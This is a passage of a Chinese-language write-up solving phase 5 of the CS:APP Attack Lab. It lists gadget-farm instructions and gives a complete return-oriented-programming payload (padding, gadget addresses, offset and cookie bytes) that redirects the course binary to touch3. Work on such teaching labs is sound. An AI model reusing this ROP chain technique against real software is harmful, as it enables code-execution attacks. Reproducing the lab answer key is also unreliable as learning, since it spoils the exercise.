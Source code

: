 ```
401a83:	8d 87 08 89 e0 90    	lea    -0x6f1f76f8(%rdi),%eax // mov esp, eax
401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax // and al
401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax // and dl
401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi) // mov rsp, rax
```

将上方的重复指令和不改变值的指令（如and）去除，只剩下下面这些：
```
pop rax
pop rsp
mov rax,rdi
mov rsp,rax
mov eax,edx
mov ecx,esi
mov edx,ecx
mov esp,eax
```

能够使用的指令有上面这些和一些不能作为gadget的指令。

到这一步我的思路是继续像level4那样，将cookie用指令写到某个地址（这个地址放在缓冲区中）去，然后将这个地址`pop`到rax中，接着用`mov rax，rdi`送到rdi寄存器中，最后返回到touch3。

问题是如何将cookie用指令写到某个地址去？根据farm中的指令，写内存的指令只有类似于`movl   $0xc2e08948,(%rdi)`这样的将某个常量写到rdi指向内存的指令。也就是说不能将某个寄存器中的内容写到内存中。

认为应该将cookie的地址编码在缓冲区中而不是将cookie编码在缓冲区中的思想使我到这里被卡住了。在想了一段时间之后搜索了答案，看到别人是将cookie编码在缓冲区中之后恍然大悟。确实，这种方法能够达到目的，因为有这条指令可以使用`mov rsp，rax`。在知道了这种解法后，那么，level4也可以使用这种方法来解决。

最后的答案和解释如下，注意一点，ret之后rsp会向高地址处移动8个字节，当程序在执行某行的指令时，rsp指向的是下一行指令：
```
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */  
00 00 00 00 00 00 00 00 /* padding */  
00 00 00 00 00 00 00 00 /* padding */  
00 00 00 00 00 00 00 00 /* padding */  
06 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
ab 19 40 00 00 00 00 00 /* gadget 3: popq %rax; */
48 00 00 00 00 00 00 00 /* gap between gadget 1 and cookie */
dd 19 40 00 00 00 00 00 /* gadget 4: movl %eax, %edx */
69 1a 40 00 00 00 00 00 /* gadget 5: movq %edx, %ecx */
13 1a 40 00 00 00 00 00 /* gadget 6: movq %ecx, %esi */
d6 19 40 00 00 00 00 00 /* gadget 7: lea (%rdi, %rsi, 1), rax */
a2 19 40 00 00 00 00 00 /* gadget 8: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* return address of touch3 */
35 39 62 39 39 37 66 61 /* cookie */
```

![csapp_lab3_16](/static/csapp_lab3_16.png)